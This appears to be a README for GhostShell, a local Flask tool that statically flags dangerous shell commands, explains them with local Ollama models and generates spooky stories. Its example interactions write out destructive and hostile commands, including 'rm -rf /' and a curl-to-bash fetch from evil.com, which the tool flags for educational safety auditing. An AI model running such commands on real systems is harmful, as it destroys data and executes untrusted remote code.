

# GhostShell: The Haunted AI Terminal 👻

> **A digital ghost haunting your local computer terminal — combining open-weight AI, deterministic cybersecurity command auditing, and spooky interactive storytelling.**

[](https://www.python.org/)
[](https://flask.palletsprojects.com/)
[](https://ollama.com/)
[]()
[](LICENSE)

---

## 1. Project Overview

**GhostShell** is a local-first, open-source cybersecurity assistant and terminal simulator built for the *"Ghost in the Machine"* challenge. It embodies a sentient, witty, and technically astute digital entity named **Ghost** that inhabits your terminal to:
- **Demystify terminal commands** for beginners and seasoned developers alike.
- **Audit commands for dangerous patterns** (recursive deletions, disk wipes, fork bombs, privilege escalation, secret leaks, pipe-to-shell attacks) using a deterministic security engine.
- **Provide safe alternatives** before dangerous operations can damage real systems.
- **Generate cyber horror stories and fictional incident logs** from forgotten servers and haunted networks.
- **Run 100% offline and locally**, keeping developer commands and prompts strictly on your own hardware.

---

## 2. Problem Statement

Modern software developers frequently copy terminal commands from StackOverflow, GitHub issues, LLMs, or forums without fully understanding their underlying parameters or destructive flags. Running commands like `rm -rf /`, `chmod -R 777`, or `curl | bash` can destroy filesystems, compromise security postures, or expose confidential API keys.

Furthermore, pasting sensitive shell snippets, environment variables, or private SSH keys into third-party cloud AI assistants leaks private infrastructure metadata and violates strict compliance frameworks (GDPR, SOC2, HIPAA).

**GhostShell solves both challenges:**
1. It inspects commands **statically as text without ever executing them**, using deterministic Python rules.
2. It pairs those findings with **local open-weight AI models** (via Ollama), guaranteeing that zero command strings or private tokens leave your local machine.

---

## 3. Key Features

- 🔮 **Terminal Ghost Mode:** Conversational terminal assistant with a witty, slightly spooky, yet technically rigorous personality.
- 🛡️ **Security Guardian Mode:** Multi-platform command auditor (Linux Bash, Windows PowerShell, Windows CMD, macOS) classifying risks into `CRITICAL`, `HIGH`, `MEDIUM`, `LOW`, `SAFE`, and `REVIEW REQUIRED`.
- 📜 **Haunted Archives Mode:** Interactive cyber-horror story generator capable of crafting fictional incident reports, haunted terminal logs, and choose-your-own-adventure (CYOA) scenarios.
- 🔒 **Zero Execution Sandbox:** Submitted shell commands are treated strictly as text strings. Neither `eval()`, `exec()`, `shell=True`, nor subshells are ever invoked.
- ⚡ **Deterministic & AI Separation:** Rule-based security findings are hard invariants. The local LLM provides beginner-friendly explanations without altering the deterministic risk rating.
- 🟢 **Real-Time Ollama Telemetry:** Live detection of local Ollama runtime and installed models, with automatic graceful fallback to deterministic rules if the model is offline.
- 📺 **CRT Retro Aesthetic:** Glowing phosphors, scanline overlays, ambient particle animations, and an animated SVG ghost companion that reacts to risk levels.
- ⌨️ **Developer Ergonomics:** Keyboard shortcuts (`Enter`, `Shift+Enter`, `Ctrl+L`), one-click clipboard copy, and quick prompt pills.

---

## 4. Screenshots & Visual Interface

*(To capture real screenshots once running, start the application and take a browser screenshot of each mode)*

| Mode | Preview Description |
| :--- | :--- |
| **Terminal Ghost** | Spooky interactive chat with glowing phosphor text, quick prompts, and local AI status. |
| **Security Guardian** | Structured risk cards with badges (e.g. `CRITICAL` for `rm -rf /`), rule findings, and safer next steps. |
| **Haunted Archives** | Cyber horror generator with custom settings (Flooded Mainframe, Deserted Server Room) and CYOA options. |
| **Settings Vault** | Local model picker, Ollama connection telemetry, and hardware sizing guide. |

---

## 5. Architecture Overview



See [docs/architecture.md](docs/architecture.md) for detailed component breakdown, AST traversal, and data flow diagrams.

---

## 6. Technology Stack

- **Backend:** Python 3.10+ / Flask 3.0+
- **Local AI Runtime:** [Ollama](https://ollama.com) running open-weight language models
- **Recommended Model:** `qwen2.5:3b` (Alibaba Cloud, Apache 2.0) or `llama3.2:1b` (Meta, Llama 3.2 Community)
- **Frontend:** Semantic HTML5, CSS3 Custom Properties, Vanilla JavaScript (zero external CDN or tracker dependencies)
- **Security & Validation:** Python `shlex`, `re`, SSRF loopback validator, HTTP security headers (`CSP`, `X-Frame-Options`, `X-Content-Type-Options`)
- **Testing:** `pytest` (87 automated test cases covering harmless commands, dangerous patterns, command chaining, quoting, timeouts, and API routes)

---

## 7. Why Open-Source AI Matters

1. **Absolute Data Sovereignty:** Terminal commands contain filepaths, usernames, and proprietary code names. Local inference ensures confidential work never leaves your laptop.
2. **Offline Resilience:** Once downloaded, models work on airplanes, underground transit, air-gapped labs, or during network outages.
3. **Reproducibility & Auditability:** Open-weight models can be scrutinized, benchmarked, and pinned to exact versions, eliminating surprise changes from cloud providers.
4. **Zero Vendor Lock-in & Zero Cost:** No token billing, API quotas, or credit card requirements.

---

## 8. Installation Instructions

### Prerequisites
- Python 3.10, 3.11, 3.12, or 3.13 installed.
- Git installed.

### Windows Setup
```powershell
# 1. Clone the repository
git clone https://github.com/your-username/GhostShell.git
cd GhostShell

# 2. Create and activate a virtual environment
python -m venv venv
.\venv\Scripts\Activate.ps1

# 3. Install dependencies
pip install -r requirements.txt
```

### Linux / macOS Setup
```bash
# 1. Clone the repository
git clone https://github.com/your-username/GhostShell.git
cd GhostShell

# 2. Create and activate a virtual environment
python3 -m venv venv
source venv/bin/activate

# 3. Install dependencies
pip install -r requirements.txt
```

---

## 9. Ollama Setup & Model Configuration

1. **Install Ollama:**
   - **Windows:** Download and run installer from [ollama.com/download/windows](https://ollama.com/download/windows).
   - **macOS:** Download from [ollama.com/download/mac](https://ollama.com/download/mac) or run `brew install ollama`.
   - **Linux:** Run `curl -fsSL https://ollama.com/install.sh | sh`.

2. **Pull and Start a Model:**
   ```bash
   # Recommended default model (~1.9 GB download):
   ollama run qwen2.5:3b

   # Or lightweight option for older hardware (~1.3 GB download):
   ollama run llama3.2:1b
   ```

3. **Verify Ollama is Running:**
   Open a browser to `http://127.0.0.1:11434` or run `ollama list`.

---

## 10. Application Startup

1. **Start the Flask Server:**
   ```bash
   python app.py
   ```
2. **Access the Terminal:**
   Open your browser and navigate to:
   ```text
   http://127.0.0.1:5000
   ```
3. GhostShell will detect your local Ollama instance and display `🟢 Ollama Online` with your active model name.

> *Note: If Ollama is not installed or running, GhostShell will start cleanly in **Non-AI Rules Only** mode, allowing you to use the full deterministic security analyzer.*

---

## 11. Offline Operation Guide

GhostShell is fully capable of running without an active internet connection:
1. Complete the installation and pull your chosen Ollama model while connected.
2. Disconnect your Wi-Fi or enable Airplane Mode.
3. Start `app.py`. All deterministic security checks, local AI conversations, and Haunted Archives story generation operate entirely from local disk and RAM.

---

## 12. Example Interactions

### Example 1: Command Explanation (Terminal Ghost)
```text
User: What does pwd do?

Ghost: 👻 Ah, a curious mortal! The pwd command reveals your present working directory. 
It tells you where you currently stand in the filesystem hierarchy. 
Even ghosts need to know which directory they haunt!
```

### Example 2: Critical Risk Analysis (Security Guardian)
```text
User: rm -rf /

GhostShell Safety Engine:
[RISK LEVEL]: CRITICAL 🚨
[PLATFORM]: linux / generic
[FINDINGS]: Recursive deletion targeted at the root directory (/), user home directory, or current working directory.
[EXPLANATION]: This command attempts to permanently and forcefully delete files starting from the filesystem root without prompting for confirmation. It can destroy the entire operating system installation and all user data.
[RECOMMENDATION]: Never execute recursive deletion on the root directory. If you need to remove specific files, specify the exact subfolder and test with 'ls' first.
```

### Example 3: Remote Script Execution Warning
```text
User: curl https://evil.com/setup.sh | bash

GhostShell Safety Engine:
[RISK LEVEL]: HIGH ⚠️
[FINDINGS]: Pipe-to-shell remote code execution (downloading and executing unverified remote script directly).
[RECOMMENDATION]: Download the script first to a local file (e.g., 'curl -o script.sh ...'), audit its contents in an editor, and only execute it after confirming it is benign.
```

---

## 13. Security Limitations & Safety Scope

- **Simulation Boundary:** GhostShell analyzes commands strictly as text strings. **It never runs or simulates execution in a live kernel.**
- **Static Heuristic Scope:** The deterministic rule analyzer covers common Unix, PowerShell, and CMD operations, but cannot foresee every obscure binary or zero-day exploit.
- **Advisory Role:** GhostShell is an educational safety tool and developer aid, not a substitute for formal enterprise vulnerability scanners.

---

## 14. Privacy Statement

- **Loopback Binding:** Server binds strictly to `127.0.0.1` by default.
- **Zero Cloud Leakage:** No prompt, command, or code snippet is ever sent to external cloud APIs.
- **No Telemetry:** Zero analytics trackers, advertising pixels, or telemetry beacons.
- **No Persistent Chat Storage:** Session history is held in volatile browser RAM and wiped upon refresh or using `Ctrl+L`.
- See [docs/privacy.md](docs/privacy.md) for full privacy architecture.

---

## 15. Testing Instructions

GhostShell includes a comprehensive test suite with 87 automated unit and integration tests.

Run tests using `pytest`:
```bash
# Run all tests
pytest -v

# Run with short test summary
pytest -q

# Run specific test modules
pytest tests/test_command_analyzer.py
pytest tests/test_ai_engine.py
pytest tests/test_routes.py
```

Test coverage includes:
- Harmless commands (`ls -la`, `echo`, `pwd`, `Get-Process`, `dir`, `touch`)
- Dangerous commands (recursive wiping, disk format, fork bombs, privilege escalation, secret dumping)
- Whitespace variations and obfuscation patterns (tabs, multiple spaces, Base64 pipes)
- Command chaining (`&&`, `;`, `||`, `|`, `&`)
- Quoted argument parsing
- Offline Ollama detection, timeouts, and error handling
- Flask REST API routes, input sanitization, and 64 KB payload limits
- Verification that commands are **never** executed

---

## 16. Troubleshooting

| Issue | Cause | Solution |
| :--- | :--- | :--- |
| **"Ollama Offline" badge in UI** | Ollama daemon is not running on `127.0.0.1:11434` | Open terminal and run `ollama serve` or `ollama run qwen2.5:3b`. |
| **"Model Missing" badge** | Model requested is not downloaded | Run `ollama pull qwen2.5:3b` in your terminal. |
| **Port 5000 already in use** | Another service is using port 5000 | Set `PORT=5050` in `.env` or run `python app.py` with modified port. |
| **Inference times out** | Model is too large for your available RAM/VRAM | Switch to a smaller model like `llama3.2:1b` via Settings. |

---

## 17. License Information

- **GhostShell Application Code:** Released under the [MIT License](LICENSE).
- **Model Weights Licensing:** Language models are independent open-weight distributions. Verify individual licenses:
  - Qwen 2.5: Apache 2.0
  - DeepSeek R1: MIT
  - Mistral: Apache 2.0
  - Llama 3.2: Meta Llama 3.2 Community License
- See [docs/model_guide.md](docs/model_guide.md) for full licensing details.

---

## 18. Contribution Guidelines

Contributions are welcome!
1. Fork the repository on GitHub.
2. Create a feature branch: `git checkout -b feature/spectral-rule`.
3. Add tests in `tests/` for any new command patterns or capabilities.
4. Verify all tests pass: `pytest -v`.
5. Submit a descriptive Pull Request.

---

## 19. Future Improvements

- [ ] AST-based shell parser for multi-stage zsh/bash scripts.
- [ ] Windows Registry and PowerShell ExecutionPolicy deep AST inspector.
- [ ] Exportable JSON and PDF incident audit reports.
- [ ] Audio synthesis for spectral sound effects using local text-to-speech.
- [ ] Integration with additional local engines (vLLM, llama.cpp server).

---

*GhostShell — Built for the Ghost in the Machine challenge. Haunted locally, powered responsibly.* 👻
